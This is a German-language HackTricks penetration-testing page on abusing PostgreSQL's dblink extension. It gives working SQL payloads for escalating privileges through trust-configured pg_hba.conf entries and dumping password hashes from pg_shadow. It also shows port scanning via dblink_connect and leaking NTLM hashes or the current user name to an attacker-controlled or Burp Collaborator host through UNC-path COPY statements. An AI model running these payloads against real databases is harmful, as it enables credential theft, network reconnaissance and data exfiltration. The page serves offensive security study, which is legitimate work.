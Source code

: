 # Netzwerk - Privesc, Port Scanner und NTLM-Challenge-Response-Offenlegung

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

**Finden Sie** [**weitere Informationen zu diesen Angriffen im Originalpapier**](http://www.leidecker.info/pgshell/Having_Fun_With_PostgreSQL.txt).

Seit **PostgreSQL 9.1** ist die Installation zusätzlicher Module einfach. [Registrierte Erweiterungen wie `dblink`](https://www.postgresql.org/docs/current/contrib.html) können mit [`CREATE EXTENSION`](https://www.postgresql.org/docs/current/sql-createextension.html) installiert werden:
```sql
CREATE EXTENSION dblink;
```
Sobald Sie dblink geladen haben, könnten Sie einige interessante Tricks ausführen:

### Privilegieneskalation

Die Datei `pg_hba.conf` könnte schlecht konfiguriert sein **und Verbindungen** von **localhost als beliebiger Benutzer** ohne Kenntnis des Passworts **erlauben**. Diese Datei befindet sich typischerweise in `/etc/postgresql/12/main/pg_hba.conf` und eine schlechte Konfiguration sieht folgendermaßen aus:
```
local    all    all    trust
```
_Beachten Sie, dass diese Konfiguration häufig verwendet wird, um das Passwort eines DB-Benutzers zu ändern, wenn der Administrator es vergisst, sodass Sie es manchmal finden können._\
&#xNAN;_&#x4E;oten Sie auch, dass die Datei pg\_hba.conf nur vom Benutzer und der Gruppe postgres lesbar und nur vom Benutzer postgres beschreibbar ist._

Dieser Fall ist **nützlich, wenn** Sie **bereits** eine **Shell** im Opfer haben, da Sie damit eine Verbindung zur PostgreSQL-Datenbank herstellen können.

Eine weitere mögliche Fehlkonfiguration besteht in etwas wie diesem:
```
host    all     all     127.0.0.1/32    trust
```
Da es jedem vom localhost ermöglicht, sich als beliebiger Benutzer mit der Datenbank zu verbinden.\
In diesem Fall und wenn die **`dblink`**-Funktion **funktioniert**, könnten Sie die **Berechtigungen erhöhen**, indem Sie sich über eine bereits bestehende Verbindung mit der Datenbank verbinden und auf Daten zugreifen, auf die Sie nicht zugreifen sollten:
```sql
SELECT * FROM dblink('host=127.0.0.1
user=postgres
dbname=postgres',
'SELECT datname FROM pg_database')
RETURNS (result TEXT);

SELECT * FROM dblink('host=127.0.0.1
user=postgres
dbname=postgres',
'select usename, passwd from pg_shadow')
RETURNS (result1 TEXT, result2 TEXT);
```
### Port Scanning

Durch den Missbrauch von `dblink_connect` könntest du auch **offene Ports suchen**. Wenn diese \*\*Funktion nicht funktioniert, solltest du versuchen, `dblink_connect_u()` zu verwenden, da die Dokumentation besagt, dass `dblink_connect_u()` identisch mit `dblink_connect()` ist, mit dem Unterschied, dass es Nicht-Superusern erlaubt, sich mit jeder Authentifizierungsmethode zu verbinden\_.
```sql
SELECT * FROM dblink_connect('host=216.58.212.238
port=443
user=name
password=secret
dbname=abc
connect_timeout=10');
//Different response
// Port closed
RROR:  could not establish connection
DETAIL:  could not connect to server: Connection refused
Is the server running on host "127.0.0.1" and accepting
TCP/IP connections on port 4444?

// Port Filtered/Timeout
ERROR:  could not establish connection
DETAIL:  timeout expired

// Accessing HTTP server
ERROR:  could not establish connection
DETAIL:  timeout expired

// Accessing HTTPS server
ERROR:  could not establish connection
DETAIL:  received invalid response to SSL negotiation:
```
Beachten Sie, dass Sie **bevor** Sie `dblink_connect` oder `dblink_connect_u` verwenden können, möglicherweise Folgendes ausführen müssen:
```
CREATE extension dblink;
```
### UNC-Pfad - NTLM-Hash-Offenlegung
```sql
-- can be used to leak hashes to Responder/equivalent
CREATE TABLE test();
COPY test FROM E'\\\\attacker-machine\\footestbar.txt';
```

```sql
-- to extract the value of user and send it to Burp Collaborator
CREATE TABLE test(retval text);
CREATE OR REPLACE FUNCTION testfunc() RETURNS VOID AS $$
DECLARE sqlstring TEXT;
DECLARE userval TEXT;
BEGIN
SELECT INTO userval (SELECT user);
sqlstring := E'COPY test(retval) FROM E\'\\\\\\\\'||userval||E'.xxxx.burpcollaborator.net\\\\test.txt\'';
EXECUTE sqlstring;
END;
$$ LANGUAGE plpgsql SECURITY DEFINER;
SELECT testfunc();
```
{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
